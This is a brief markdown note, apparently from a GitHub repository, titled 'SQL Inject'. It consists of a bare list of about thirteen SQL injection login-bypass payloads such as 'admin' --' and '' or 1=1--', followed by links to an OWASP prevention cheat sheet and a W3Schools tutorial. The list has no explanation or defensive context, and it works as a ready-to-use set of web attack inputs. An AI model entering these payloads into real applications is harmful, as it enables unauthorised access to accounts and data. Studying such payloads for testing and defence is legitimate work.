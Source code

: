 # SQL Inject

admin' --

admin' #

admin'/*

' or 1=1--

' or 1=1#

' or 1=1/*

') or '1'='1--

') or ('1'='1--

'1'='1

" OR ""="

' OR 1=1 --

' OR 1=1 @

' OR 1=1 #

## Links

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

https://www.w3schools.com/sql/sql_injection.asp
